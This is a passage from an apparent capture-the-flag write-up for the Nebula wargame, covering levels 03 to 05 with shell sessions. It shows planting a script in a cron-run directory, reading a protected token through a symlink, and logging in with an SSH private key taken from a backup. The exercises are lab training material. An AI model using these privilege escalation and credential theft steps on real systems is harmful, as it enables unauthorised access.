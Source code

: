 and script, which launch files in that directory and delete them by cron.


```sh
sh-4.2$ cat <<EOF > writable.d/test
> #!/bin/bash
> getflag > /tmp/res
> EOF
sh-4.2$ cat /tmp/res
You have successfully executed getflag on a target account
```

## level04
[task description](https://exploit-exercises.lains.space/nebula/level04/)

There is ivalid file open() call, so it's possible to bypass restrictions by creating symbolic link to the token:
```sh
sh-4.2$ ln -s /home/flag04/token  ~/test3
sh-4.2$ ./flag04  ~/test3
06508b5e-8909-4f38-b630-fdb148a848a2 
```

## level05
[task description](https://exploit-exercises.lains.space/nebula/level05/)

Here we have backup archive with ssh private key:

```sh
sh-4.2$ cd .backup/
sh-4.2$ ls
backup-19072011.tgz
sh-4.2$ cp backup-19072011.tgz /tmp/
sh-4.2$ cd  /tmp/

sh-4.2$ gunzip  backup-19072011.tgz 
sh-4.2$ ls 
backup-19072011.tar  echo  level04  res  test01
sh-4.2$ tar -xvf backup-19072011.tar 
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys

sh-4.2$ ssh -i .ssh/id_rsa flag05@192.168.56.102
...
flag05@nebula:~$ getflag 
You have successfully executed getflag on a target account
```

## level06
[task description](https://exploit-exercises.lains.space/nebula/level06/)
